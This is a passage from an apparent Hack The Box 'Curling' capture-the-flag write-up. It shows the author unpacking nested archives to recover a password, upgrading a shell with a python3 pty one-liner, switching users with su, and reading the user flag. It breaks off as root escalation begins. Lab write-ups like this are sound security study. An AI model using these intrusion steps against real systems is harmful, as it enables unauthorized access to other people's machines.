 ### gzip

another compressed file inside 

```
root@kali2:~/challenges/hackthebox/curling# file data.out.out                   
data.out.out: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix, original size 141
root@kali2:~/challenges/hackthebox/curling# mv data.out.out data.gz
root@kali2:~/challenges/hackthebox/curling# gunzip data.gz
root@kali2:~/challenges/hackthebox/curling# file data
download: bzip2 compressed data, block size = 900k
```

### bzip...again

and another...:O

```
root@kali2:~/challenges/hackthebox/curling# mv data password.bz2
root@kali2:~/challenges/hackthebox/curling# bzip2 -d password.bz2
root@kali2:~/challenges/hackthebox/curling# file password
password: POSIX tar archive (GNU)
```

### tar

tar - it keeps on going 

```
root@kali2:~/challenges/hackthebox/curling# tar xvf password
password.txt
root@kali2:~/challenges/hackthebox/curling# cat password.txt
5d<wdCbdZu)|hChXll
```

woop! got there in the end 

Now on the box `su` was used to swtich over to `floris` and get the user flag.

```
python3 -c 'import pty;pty.spawn("/bin/sh")'
$ su -l floris
su -l floris
Password: 5d<wdCbdZu)|hChXll

floris@curling:~$ cat user.txt
cat user.txt
65dd1d...
floris@curling:~$
```

# Privesc to Root 

First, let's upload our ssh key so we don't have to rely on that meterpreter shell and get in nice and easy 
